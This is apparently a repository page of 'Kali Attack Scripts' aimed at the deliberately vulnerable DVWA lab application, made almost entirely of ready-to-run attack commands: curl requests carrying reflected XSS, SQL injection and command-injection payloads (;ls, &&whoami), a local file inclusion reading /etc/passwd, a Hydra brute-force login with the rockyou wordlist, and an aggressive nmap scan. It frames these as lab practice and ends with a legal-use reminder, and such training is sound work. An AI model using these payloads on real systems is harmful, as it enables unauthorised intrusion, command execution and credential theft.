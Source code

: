 # 🛠️ Kali Attack Scripts for DVWA Targets

---

## 1. Cross-Site Scripting (XSS)

### Script:

```bash
curl "http://<Ubuntu-IP>/DVWA/vulnerabilities/xss_r/?name=<script>alert('xss')</script>" \
  -b "PHPSESSID=your_session_id; security=low"

curl "http://<Ubuntu-IP>/DVWA/vulnerabilities/xss_r/?name=%3Cscript%3Ealert('xss')%3C/script%3E" \
  -b "PHPSESSID=your_session_id; security=low"
```

> Triggers a reflected XSS vulnerability.

---

## 2. SQL Injection (SQLi)

### Script:

```bash
curl "http://<Ubuntu-IP>/dvwa/vulnerabilities/sqli/?id=1%27%20OR%201%3D1--&Submit=Submit" \
  -b "PHPSESSID=your_session_id; security=low"
```

> Exploits SQL injection to bypass authentication logic.

---

## 3. Command Injection

### Script:

```bash
curl "http://<Ubuntu-IP>/DVWA/vulnerabilities/exec/?ip=127.0.0.1;ls&Submit=Submit" \
  -b "PHPSESSID=your_session_id; security=low"

curl "http://<Ubuntu-IP>/DVWA/vulnerabilities/exec/?ip=127.0.0.1&&whoami&Submit=Submit" \
  -b "PHPSESSID=your_session_id; security=low"
```

> Executes OS-level commands via input injection.

---

## 4. Brute Force Login (Hydra)

### Script:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <Ubuntu-IP> \
http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V -t 10 -w 30
```

> Performs a brute-force login attack using Hydra with a known wordlist.

---

## 5. File Inclusion (LFI)

### Script:

```bash
curl "http://<Ubuntu-IP>/dvwa/vulnerabilities/fi/?page=../../../../etc/passwd" \
  -H "Cookie: PHPSESSID=your_session_id; security=low"
```

> Exploits Local File Inclusion to read sensitive files.

---

## 6. Reconnaissance (Nmap)

### Script:

```bash
nmap -A <Ubuntu-IP>
```

> Performs aggressive scanning and OS detection against the target.

---

✅ Make sure DVWA security level is set to **Low** while testing.

🔒 Use these scripts only in legal, isolated lab environments (e.g., your own VMs).
